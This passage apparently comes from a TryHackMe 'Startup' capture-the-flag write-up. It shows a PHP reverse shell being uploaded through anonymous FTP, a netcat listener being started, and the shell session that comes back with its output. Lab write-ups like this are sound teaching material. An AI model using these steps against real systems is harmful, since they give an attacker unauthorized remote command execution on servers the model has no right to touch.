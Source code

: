 To upload the file, first **make sure we are in the right directory** where the file is located, then **connect via FTP** and **use "put" command** to upload the file:
```
┌──(kali㉿kali)-[~/upload]
└─$ ls
phpreverseshell.php

┌──(kali㉿kali)-[~/upload]
└─$ ftp ftp@<TARGET-IP>
Connected to <TARGET-IP>.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||62254|)
150 Here comes the directory listing.
drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp
-rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
226 Directory send OK.
ftp> cd ftp
250 Directory successfully changed.
ftp> put phpreverseshell.php 
local: phpreverseshell.php remote: phpreverseshell.php
229 Entering Extended Passive Mode (|||48366|)
150 Ok to send data.
100% |************************************************|  5492      641.69 KiB/s    00:00 ETA
226 Transfer complete.
5492 bytes sent in 00:00 (10.12 KiB/s)
ftp> exit
221 Goodbye.
```

Now, we can check if the file is already been uploaded or not in browser.

![img](uploadedfile.png)

Nice! Now, **before clicking the file**, make sure to **run netcat and set it as listener**:
```
┌──(kali㉿kali)-[/mnt/…/Learning/TryHackMe/Machines/Startup]
└─$ nc -lvnp 4444      
listening on [any] 4444 ...
connect to [<ATTACKER-IP>] from (UNKNOWN) [<TARGET-IP>] 51934
Linux startup 4.4.0-190-generic #220-Ubuntu SMP Fri Aug 28 23:02:15 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 08:58:54 up 21 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```